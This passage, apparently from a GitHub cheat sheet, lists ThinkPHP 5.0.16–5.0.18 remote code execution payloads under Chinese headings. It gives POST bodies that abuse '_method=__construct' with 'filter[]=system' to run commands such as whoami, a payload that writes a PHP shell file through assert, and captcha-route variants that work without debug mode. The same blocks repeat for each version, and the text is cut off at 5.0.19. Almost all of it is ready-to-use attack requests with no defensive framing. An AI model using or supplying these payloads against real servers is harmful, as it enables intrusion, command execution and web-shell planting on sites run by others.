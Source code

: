 ```
POST ?s=captcha/calc
_method=__construct&filter[]=system&method=GET
```
### 5.0.16
默认debug=false，需要开启debug
命令执行
```
POST ?s=index/index
s=whoami&_method=__construct&method=POST&filter[]=system
aaaa=whoami&_method=__construct&method=GET&filter[]=system
_method=__construct&method=GET&filter[]=system&get[]=whoami
c=system&f=calc&_method=filter
```
写shell
```
POST
s=file_put_contents('Y4er.php','<?php phpinfo();')&_method=__construct&method=POST&filter[]=assert
```
有captcha路由时无需debug=true
```
POST ?s=captcha/calc
_method=__construct&filter[]=system&method=GET
```
### 5.0.17
默认debug=false，需要开启debug
命令执行
```
POST ?s=index/index
s=whoami&_method=__construct&method=POST&filter[]=system
aaaa=whoami&_method=__construct&method=GET&filter[]=system
_method=__construct&method=GET&filter[]=system&get[]=whoami
c=system&f=calc&_method=filter
```
写shell
```
POST
s=file_put_contents('Y4er.php','<?php phpinfo();')&_method=__construct&method=POST&filter[]=assert
```
有captcha路由时无需debug=true
```
POST ?s=captcha/calc
_method=__construct&filter[]=system&method=GET
```
### 5.0.18
默认debug=false，需要开启debug
命令执行
```
POST ?s=index/index
s=whoami&_method=__construct&method=POST&filter[]=system
aaaa=whoami&_method=__construct&method=GET&filter[]=system
_method=__construct&method=GET&filter[]=system&get[]=whoami
c=system&f=calc&_method=filter
```
写shell
```
POST
s=file_put_contents('Y4er.php','<?php phpinfo();')&_method=__construct&method=POST&filter[]=assert
```
有captcha路由时无需debug=true
```
POST ?s=captcha/calc
_method=__construct&filter[]=system&method=GET
```
### 5.0.19